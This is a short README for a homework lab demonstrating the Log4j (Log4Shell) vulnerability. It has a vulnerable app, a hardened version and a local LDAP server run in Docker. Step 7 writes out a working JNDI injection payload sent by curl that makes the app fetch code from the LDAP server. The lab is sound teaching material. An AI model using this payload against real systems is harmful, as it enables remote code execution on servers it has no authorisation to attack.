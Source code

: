 # Homework 9 - Log4j Demonstration

## Setup Instructions
1. Open a terminal window.
2. Move into the appropriate directory.
* For the vulnerable app, use the ***before*** folder.
* For the hardened app, use the ***after*** folder.
3. Run ```make reset```, then wait for the container to run.
4. Open a new terminal window and navigate to the ***ldap_server*** folder.
5. Start the ldap server with ```python ldap_server.py```
6. Test logging with the command ```curl -H 'Content-Type: text/plain' --data 'Hello, World!' http://localhost:8080/log```
7. Test the exploit with the command
```curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log```